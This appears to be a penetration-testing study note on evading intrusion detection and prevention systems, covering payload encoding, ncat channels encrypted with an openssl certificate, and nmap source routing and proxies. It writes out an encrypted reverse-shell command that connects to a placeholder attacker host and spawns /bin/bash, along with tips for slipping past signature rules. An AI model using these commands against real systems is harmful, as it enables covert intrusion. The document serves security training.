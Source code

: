 There are multiple things that we could do here to bypass certain conditions, for the most basic of rules we could just `base64` encrypt it to get around. Depending on the signature matching we could also try URL encoding. Or even use the Escaped Unicode, as some applications will still process our input and execute it if we use use escaped Unicode. We could use [Cyberchef](https://gchq.github.io/CyberChef/) for most of these.

## [[AV Evasion Shellcode#Encoding and Encryption|Encrypt]] the Communication Channel
Because an IDS/IPS won't inspect encrypted data, we can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.
One direct approach is to create the necessary encryption key on our system and set `ncat` to use the encryption key to enforce encryption as it listens for incoming connections.
First we create the key
```sh
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=website.name.com/O=OrganizationName/C=Country' -nodes -keyout Private.key -out Certificate.crt
```
In here we use `openssl` to request (`req`) that we want an X.509 certificate (`-x509`) using RSA with a size of 4096 bits (`-newkey rsa:4096`), it will be valid for a year (`-day 365`) and it will have the data that we give it, such as organization, website and country (`-subj '/CN...try'`), it will not encrypt the private key (`-nodes`), and it will output both the private key and the certificate (`-keyout *.key -out *.crt`).
Now, we can start listening while using the key for encrypting the communication with the client
```sh
ncat -lnvp 4443 --ssl-key Private.key --ssl-cert Certificate.crt 
```
We start `ncat` in listening mode and provide it both the private key and the certificate.
Finally we connect from the target
```sh
ncat --ssl AttackerIP 4443 -e /bin/bash
```
## Modifying the data
Considering a simple case where we just want to use `ncat` to connect back to our listener. `ncat --ssl AttackerIP 4443 -e /bin/bash`. An IPS could check for certain patterns on our command to flag it as malicious
- Scanning for things like `ncat --ssl` to not allow encrypted connections can be bypassed by adding more spaces like so `ncat   --ssl`.
- Prohibiting certain ports
- Not allowing the use of `/bin/bash`, we could maybe use another like `/bin/sh` or just `bash`.
- If they are looking for `ncat` then simple changes to the command won't work, at this point we may consider using other techniques depending on the target system/applications, maybe the use of `nc`, `socat`, etc.

# Evasion via Route Manipulation
This includes:
- Relying on source routing
- Using Proxy Servers
## Relying on Source Routing
In many cases, we can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option `--ip-options`. It offers loose and strict routing:
- Loose routing can be specified using `L`. Like `--ip-options "L 10.0.0.1 10.0.0.255"` requests that our scan packets are routed through the two provided IP addresses.
- Strict routing can be specified using `S`. Strict routing requires you to set every hop between your system and the target host. Like `--ip-options "S 10.0.0.1 10.0.0.128 10.0.0.255"` specifies that the packets go via these three hops before reaching the target host.
## Using Proxy Servers
The use of proxy servers can help hide our source. [[Nmap]] offers the option `--proxies` that takes a list of a comma-separated lists of proxy URLs. Each URL should be expressed in the format `protocol://host:port`. Valid protocols are HTTP and SOCKS4.